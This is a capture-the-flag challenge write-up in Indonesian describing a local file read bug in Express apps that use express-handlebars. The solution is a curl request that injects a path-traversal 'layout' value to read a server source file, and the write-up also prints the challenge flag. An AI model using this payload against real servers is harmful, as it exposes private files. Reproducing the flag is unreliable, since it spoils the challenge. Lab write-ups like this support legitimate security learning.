 # express-handlebars

# Description
Ketika menggunakan ExpressJS lalu menggunakan Handlebars untuk templating, Anda mungkin rentan terhadap pembacan file lokal.

# Solution
Jalankan terminal lalu jalankan command ini:
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"teks\":{"layout\": \"./../routes/index.js\"}}' 'http://localhost:9090/'

# Flag
FindITCTF{m3t_3id_mub4r4k}

# Author
repalfarel#0466

# How to Run?
```
docker build -t teks
docker run -p 9090:9090 teks
```